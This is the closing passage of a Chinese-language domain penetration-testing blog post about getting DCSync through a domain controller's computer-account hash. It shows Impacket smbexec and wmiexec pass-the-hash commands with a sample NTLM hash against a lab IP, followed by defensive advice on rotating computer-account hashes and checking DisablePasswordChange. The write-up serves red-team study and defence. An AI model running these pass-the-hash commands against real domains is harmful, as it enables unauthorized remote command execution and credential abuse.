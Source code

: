 ```
python smbexec.py -hashes :7da530fba3b15a2ea21ce7db8110d57b test/DC1$@192.168.1.1 whoami /priv
python wmiexec.py -hashes :7da530fba3b15a2ea21ce7db8110d57b test/DC1$@192.168.1.1 whoami /priv
```

**注：**

使用计算机帐户具有高权限，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-9-19/4-1.png)

## 0x05 防御检测
---

检测DCSync后门的方法可参考[《域渗透——DCSync》](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-DCSync/)

站在防御的角度，如果域管理员的权限被攻击者获得，在尝试踢出攻击者的过程中，不仅需要修改域管理员用户的口令，同样需要更新计算器帐户的口令hash，检测域组策略是否被配置成开启`DisablePasswordChange`

## 0x06 小结
---

本文介绍了通过域控制器的计算机帐户口令hash实现DCSync的方法，分析利用思路，给出防御建议。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)




